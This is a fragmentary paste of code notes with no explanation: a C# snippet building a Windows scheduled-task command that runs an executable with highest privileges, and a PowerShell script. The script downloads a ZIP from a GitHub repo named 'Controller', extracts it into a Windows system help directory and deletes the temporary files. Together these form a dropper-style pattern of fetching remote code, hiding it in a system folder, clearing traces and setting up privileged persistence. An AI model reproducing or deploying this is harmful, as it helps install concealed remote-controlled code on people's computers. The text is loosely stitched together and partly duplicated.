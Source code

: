 "C:\Users\Administrator\Downloads\grouse-main\grouse-main\DesktopGoose v0.31\GooseDesktop.exe"

string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"{exePath}\" " +
                   $"/SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
string createCmd = $"/Create /TN \"ShowMyApp\" /TR \"\\\"{exePath}\\\"\" /SC ONCE /ST {startTime} /RL HIGHEST /F /RU \"{username}\"";
C:\Windows\Help\Windows\IndexStore\en-US


# Set variables
$url = "https://github.com/burner-afk/Controller/archive/refs/heads/main.zip"      
$zipPath = "C:\temp\Controller-main.zip"
$extractPath = "C:\Windows\Help\Windows\IndexStore\en-US"



# Create directory for download and extraction
New-Item -ItemType Directory -Force -Path (Split-Path $zipPath)


# Download the ZIP file
Invoke-WebRequest -Uri $url -OutFile $zipPath

# Extract the ZIP file
Add-Type -AssemblyName System.IO.Compression.FileSystem
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath)

Remove-Item "C:\temp" -Recurse -Force
